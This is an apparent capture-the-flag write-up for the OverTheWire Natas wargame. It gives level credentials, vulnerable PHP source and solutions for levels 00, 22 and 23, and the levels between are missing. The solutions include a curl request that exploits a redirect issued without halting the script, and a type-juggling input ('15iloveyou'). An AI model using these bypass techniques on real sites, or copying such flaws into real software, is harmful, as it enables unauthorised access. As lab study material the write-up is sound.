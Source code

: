 ```yaml
---
title: "[OTW] Natas Write-Up"
permalink: /writeups/otw/natas/
layout: single
sidebar:
  nav: natas
---
```


#### Natas 00 Solution
**URL :** <http://natas0.natas.labs.overthewire.org/> \
**Credentials :** *natas0:0nzCigAq7t2iALyvU9xcHlYN4MlkIwlq* \
```The password for natas1 is 0nzCigAq7t2iALyvU9xcHlYN4MlkIwlq```
> The password for natas1 is 0nzCigAq7t2iALyvU9xcHlYN4MlkIwlq

### Natas 01 Solution
### Natas 22 Solution
```php
<?php
session_start();

if (array_key_exists("revelio", $_GET)) {
    // only admins can reveal the password
    if (!($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1)) {
      header("Location: /");
    }
}
?>
```

```php
<?php
    if (array_key_exists("revelio", $_GET)) {
        print "You are an admin. The credentials for the next level are:<br>";
        print "<pre>Username: natas23\n";
        print "Password: <censored></pre>";
    }
?>
```

```curl -u natas22:d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz 'http://natas22.natas.labs.overthewire.org/index.php?revelio'```

### Natas 23 Solution
```php
<?php
    if (array_key_exists("passwd",$_REQUEST)) {
        if (strstr($_REQUEST["passwd"],"iloveyou") && ($_REQUEST["passwd"] > 10 )) {
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas24 Password: <censored></pre>";
        }
        else {
            echo "<br>Wrong!<br>";
        }
    }
    // morla / 10111
?>
```
Had to search up what strstr did
Tried xxiloveyouxx
Assumed the input had to be > 10 characters in length
15iloveyou